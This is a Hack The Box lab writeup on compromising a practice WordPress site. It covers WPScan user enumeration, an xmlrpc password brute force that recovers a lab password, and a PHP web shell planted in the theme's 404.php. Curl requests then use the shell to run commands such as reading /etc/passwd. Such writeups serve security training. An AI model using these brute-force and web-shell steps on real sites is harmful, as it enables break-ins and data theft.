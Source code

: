 # Hack The Box - Attack WordPress (Writeup)

## Target Information
**IP Address**: 10.129.250.241

**Virtual Host (vhost)**: blog.inlanefreight.local

I edited my /etc/hosts file to map the IP address to the vhost:
```bash
sudo nano /etc/hosts
```
Added:
```bash
10.129.250.241 blog.inlanefreight.local
```
## Step 1: Enumerating the WordPress Site
To enumerate the WordPress installation, I used WPScan with an API token to find users:
```bash
sudo wpscan --url http://blog.inlanefreight.local --enumerate u --api-token CKFtS1LOO<SNIP>
```
**Identified Users**
- admin
- doug
```bash
<SNIP>
[i] User(s) Identified:

[+] by:
									admin
 | Found By: Author Posts - Display Name (Passive Detection)

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] doug
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 5
 | Requests Remaining: 20

[+] Finished: Sun Apr 27 23:34:41 2025
[+] Requests Done: 3632
[+] Cached Requests: 12
[+] Data Sent: 1.045 MB
[+] Data Received: 23.177 MB
[+] Memory used: 280.82 MB
[+] Elapsed time: 00:03:27
```
## Step 2: Bruteforcing Password for User "doug"
I attempted to bruteforce the password of the user doug using WPScan and the common password list rockyou.txt:
```bash
sudo wpscan --password-attack xmlrpc -t 20 -U doug -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```
**Credentials found:**

- Username: doug
- Password: jessica1
```bash
[+] Performing password attack on Xmlrpc against 1 user/s
Trying doug / linkinpark Time: 00:00:16 <> (508 / 14344392)  0.00%  ETA: ??:??:?[SUCCESS] - doug / jessica1                                                     
Trying doug / cheyenne Time: 00:00:20 < > (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: doug, Password: jessica1

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Apr 27 23:44:30 2025
[+] Requests Done: 832
[+] Cached Requests: 8
[+] Data Sent: 402.909 KB
[+] Data Received: 907.688 KB
[+] Memory used: 271.418 MB
[+] Elapsed time: 00:00:38
```
## Step 3: Accessing WordPress Admin Panel
Using the obtained credentials, I logged into the WordPress admin dashboard:

- URL: http://blog.inlanefreight.local/wp-admin
- Username: doug
- Password: jessica1

![image](https://github.com/user-attachments/assets/d8ce93fc-6f93-4650-876d-704f7524eef5)

## Step 4: Gaining Remote Code Execution
Following the Attack WordPress module instructions, I modified the 404.php file of the Twenty Nineteen theme to execute system commands:
Navigated to
`Appearance -> Theme Editor -> 404.php (Twenty Nineteen Theme)`

Added the following PHP code:
`<?php system($_GET['cmd']); ?>`

![image](https://github.com/user-attachments/assets/3902f59e-b0b6-452a-8baf-77828a612f5b)

## Step 5: Testing Remote Command Execution
I tested the remote code execution by sending a curl request:
```bash
curl "http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=id"
```
Result:
```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

![image](https://github.com/user-attachments/assets/4b0c1c18-2061-45fa-902e-7e15d76b01a6)

This confirmed that command execution was successfully achieved, and the code was running with www-data user privileges.

## Step 6: Exploring the Target System
To explore further I retrieved the contents of /etc/passwd:
```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=cat+/etc/passwd
```
Found another user with a login shell /bin/bash (potential target for privilege escalation).

![image](https://github.com/user-attachments/assets/af902c4f-ab63-40c1-8ca6-d8604002954e)

I also listed files in the web server's root directory:
```bash
curl "http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=ls+/var/www/blog.inlanefreight.local/"
```
Found important files that will help in further privilege escalation or lateral movement to get the flag.

![image](https://github.com/user-attachments/assets/f9ac18b9-e2cf-408a-a41d-ef5fc8fc1f31)

## Summary

| Stage                | Status        |
|----------------------|---------------|
| WordPress user enumeration | ✅ Completed |
| Password brute forcing | ✅ Completed |
| Admin panel access | ✅ Completed |
| Remote Code Execution | ✅ Achieved |
| Initial foothold on the server | ✅ Done |


HAPPY HACKING !
